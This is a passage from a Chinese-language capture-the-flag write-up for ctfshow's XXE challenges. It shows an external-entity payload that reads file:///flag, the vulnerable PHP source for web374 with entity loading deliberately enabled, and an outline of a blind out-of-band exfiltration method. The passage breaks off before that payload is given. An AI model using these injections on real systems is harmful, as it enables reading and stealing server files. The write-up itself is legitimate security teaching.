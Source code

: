 ```php
}
highlight_file(__FILE__);    

```

那就是引入外部实体读取**flag**，利用对**ctfshow**节点的输出来得到**flag**

```xml-dtd
<!DOCTYPE getflag [<!ENTITY example SYSTEM "file:///flag"> ]>
<xlccccc>
	<ctfshow>
		&example;
	</ctfshow>
</xlccccc>
```

套一层<xlccccc></xlccccc>是因为要先有根节点才能有接下来的节点

## web374

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-07 12:59:52
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-07 13:36:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);   
```

没有回显了

> 思路
>
> 利用php伪协议读取flag的值
>
> 外部引用服务器上的dtd文件来访问开启的端口，并将得到的flag作为参数

靶机POST
